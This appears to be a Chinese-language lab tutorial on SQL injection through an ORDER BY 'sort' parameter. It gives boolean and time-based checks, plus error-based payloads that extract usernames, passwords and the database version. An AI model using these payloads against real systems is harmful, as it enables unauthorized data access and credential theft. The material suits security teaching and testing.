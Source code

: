 order by 不同于 where 后的注入点，不能使用 union 等进行注入。注入方式十分灵活，下面在本关来详细讲解一下。

### 验证方式

- **升序和降序验证

```bash
# 升序排序
?sort=1 asc

# 降序排序
?sort=1 dasc
```

- **rand() 验证**

rand(ture) 和 rand(false) 的结果是不一样的

```payload
?sort=rand(true)
?sort=rand(false)
```

所以利用这个可以轻易构造出一个布尔和延时类型盲注的测试 payload

此外 rand() 结果是一直都是随机的

```none
?sort=rand()
?sort=1 and rand()
```

- **延时验证

```payload
?sort=sleep(1)
?sort=(sleep(1))
?sort=1 and sleep(1)
```

这种方式均可以延时，延时的时间为 (行数*1) 秒

### 报错注入1

```payload
?sort=1+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(CONCAT(username,password)+AS+CHAR),0x7e))+FROM+users+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)
```

### 报错注入2

利用 procedure analyse 参数，也可以执行报错注入。

```payload
?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)
?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,(SELECT+CONCAT_WS(':',username,password)+FROM+users limit 0,1))),1)
```

